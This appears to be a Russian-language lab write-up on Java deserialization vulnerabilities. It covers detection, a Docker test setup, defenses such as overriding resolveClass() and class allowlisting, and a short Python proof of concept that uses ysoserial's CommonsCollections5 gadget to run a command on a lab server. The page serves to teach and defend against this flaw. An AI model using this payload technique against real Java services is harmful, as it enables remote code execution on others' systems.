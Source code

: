 Deserialization (Java)


# Описание

Сериализация -- процесс перевода какой-либо структуры данных в последовательность бит, пригодную для хранения в файлах или передачи данных по сети. Десериализация -- процесс восстановления начального состояния структуры из последовательности. 

# Уязвимость

В качестве объекта для сериализации можно записать пользовательские данные, которые могут вызвать выполнение методов из уязвимых библиотек. С помощью уязвимых библиотек можно выполнить произвольный код. 

# Условия

ОС: любая
язык: Java
компоненты: уязвимые библиотеки Java
настройки: зависят от библиотеки

# Детектирование

- Класс вредоносного объекта присутствует в classpath сервера. 
- Класс вредоносного объекта ― сериализуемый или экстернализуемый.

## Развертывание

Запускаем [докер контейнер](https://github.com/GrrrDog/ZeroNights-WebVillage-2017/) для java. 
В данном примере уязвимый сервис будет находиться на http://java.lab


# Эксплуатация

## Шаг 1

Скачиваем [ysoserial](https://github.com/frohoff/ysoserial).

## Шаг 2

Используем следующий POC

```python
import requests
import urllib
import subprocess
import base64

# генерируем payload
payload = subprocess.check_output("java -jar ysoserial.jar CommonsCollections5 'touch /tmp/huck-you.txt'", shell=True)
# отправляем
result = requests.get('http://java.lab/ois?sess=%s' % (urllib.parse.quote(base64.b64encode(payload)),))
print(result.text)
```

Сгенерированный payload с помощью ysoserial запустит произвольный код на атакуемом сервере. При этом вылетит ошибка согласования типов, однако код всё равно запустится. 



# Защита

- переопределение  метода resolveClass().

При чтении потока сериализованному объекту предшествует описание класса. Эта структура позволяет  реализовать свой собственный алгоритм чтения описания класса и в зависимости от имени класса решать, следует ли продолжить чтение потока. Для этого можно использовать переопределение  метода resolveClass(). Его можно использовать для выдачи исключения всякий раз, когда поток содержит неожидаемый класс. Таким образом exception выдаётся до того, как объект начинает десериализовываться. 


- Своевременное обновление библиотек.
- Использование белого листа для десериализуемых объектов. 


# Ущерб

Подмена объекта десериализации потенциально может привести к удалённому выполнению кода на сервере. 

# Ссылки

- https://github.com/frohoff/ysoserial
- https://nytrosecurity.com/2018/05/30/understanding-java-deserialization/
- http://gursevkalra.blogspot.com/2016/01/ysoserial-commonscollections1-exploit.html
- https://docstore.mik.ua/orelly/java-ent/security/ch02_01.htm#SEC-CH-2-SECT-1.1
- https://www.ibm.com/developerworks/ru/library/se-lookahead/index.html
